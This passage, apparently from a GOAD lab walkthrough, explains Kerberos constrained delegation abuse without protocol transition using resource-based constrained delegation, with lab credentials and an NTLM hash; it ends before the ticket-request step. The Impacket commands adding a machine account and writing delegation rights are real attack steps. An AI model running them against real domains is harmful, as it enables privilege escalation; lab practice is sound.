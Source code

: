 
### Without protocol transition

- The constrained delegation with protocol transition was not present originally in the lab, but you can add it with the following commands :

```bash
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml -l dc02 --tags "data,constrained_delegation_kerb"
```

- Or you could add it by hand with the powershell commands :

```powershell
Set-ADComputer -Identity "castelblack$" -ServicePrincipalNames @{Add='HTTP/winterfell.north.sevenkingdoms.local'}
Set-ADComputer -Identity "castelblack$" -Add @{'msDS-AllowedToDelegateTo'=@('HTTP/winterfell.north.sevenkingdoms.local','HTTP/winterfell')}
```

- This result to this in the windows GUI :

![deleg_find_delegationconstrained_gui.png](/assets/blog/GOAD/deleg_find_delegationconstrained_gui.png)

- A good example of exploitation can be found here: [https://snovvcrash.rocks/2022/03/06/abusing-kcd-without-protocol-transition.html](https://snovvcrash.rocks/2022/03/06/abusing-kcd-without-protocol-transition.html)

> The self-RBCD trick doesn't work anymore. When i was writing this article i tried the self-rbcd without success many times. After multiple tries and fail i ask to charlie (@_nwodtuhs) what i am doing wrong, because i can't find out why this don't work as expected. He explained to me that the self rbcd trick didn't work anymore and have been silent patch by Microsoft :'(
{: .prompt-warning }

- To exploit the constrained delegation here we only need a forwardable TGS as administrator to any service on castelblack
- But if we do a s4u (s4u2self + s4u2proxy) like we did with protocol transition, the s4uself will send us a not forwardable TGS and the attack will fail.

- So to exploit and get the forwardable TGS we need, we first need to add a computer and use RBCD between the created computer (rbcd_const$) and the computer who have delegation set (here castelblack$).

- By doing that, you can do a s4u2self followed by a s4u2proxy on the added computer and the result is a forwardable tgs on hots/castelblack$ as administrator.

- Once that done, you have the forwardable ticket to pass to s4u2proxy, and we even can change the request service with -altservice


```bash
# add computer X (rbcd_const)
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/arya.stark:Needle'

# add rbcd from X (rbcd_const) to constrained (castelblack)
rbcd.py -delegate-from 'rbcd_const$' -delegate-to 'castelblack$' -dc-ip 192.168.56.11 -action 'write' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
```
